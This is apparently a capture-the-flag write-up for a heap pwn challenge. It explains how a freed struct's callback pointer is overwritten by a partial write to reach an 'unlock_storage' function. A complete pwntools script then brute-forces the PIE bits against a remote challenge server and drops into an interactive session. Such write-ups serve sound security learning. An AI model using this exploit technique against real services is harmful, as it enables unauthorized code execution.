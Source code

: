 #  Bon-nie-appetit

```
score: 325
solved: 102
difficulty: medium
tags: pwn, brute-force
```

## Identify
we have a struct, 1 already instant of it:
```
------------- 0x0
<User Data>
------------- 0x48
<Pointer callback>
------------- 0x50
```
And 4 options:
- 1 - show: It wills call `callback` from pointer in struct.
- 2 - Don't care.
- 3 - Create a new instant of struct and save.
- 4 - Free instant.

The vulnerability here is accept insert data with size of struct when using option 3.
```c
offer = malloc(local_10);
fwrite("\n[*] What can you offer me? ",1,0x1c,stdout);
read(0,offer,local_10);
```
We can easy to override `callback function's pointer` with a function `unlock_storage`
## Exploit
we have checksec:
```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'./glibc/'
```
 Because have `PIE` we have to brute-force 4 bits (hope it eual 0) when override pointer:
 
 POC:
 ```python
 from pwn import *
import time

exe = ELF("./trick_or_deal")
libc = ELF("./glibc/libc.so.6")

# p = process(exe.path)

p = 0
chunk_size = 0x50

def show():
    p.sendafter(b"do? ", b"1\n")
    # tmp =p.recvuntil(b"-_-")
    # return tmp

def offer(size,data):
    p.sendafter(b"do? ",b"3\n")
    p.sendafter(b"(y/n): ",b"y\n")
    p.sendafter(b"be? ",str(size).encode()+b"\n")
    p.sendafter(b"me? ", data)

def free():
    p.sendafter(b"do? ",b"4\n")

def main():
    while (True):
        global p
        p = remote("138.68.175.87",30630)
        free()
        payload = b""
        payload += b"A"*0x48
        payload += b"\xff\x0e"
        offer(0x50,payload)
        time.sleep(0.5)
        show()
        try:
            tmp = p.recv(timeout=0.5)
            if b"[*] Bruteforcing Storage Access Code . . ." in tmp:
                p.interactive()
                break
            p.close()
        except:
            pass

if __name__ == "__main__":
    main()
 ```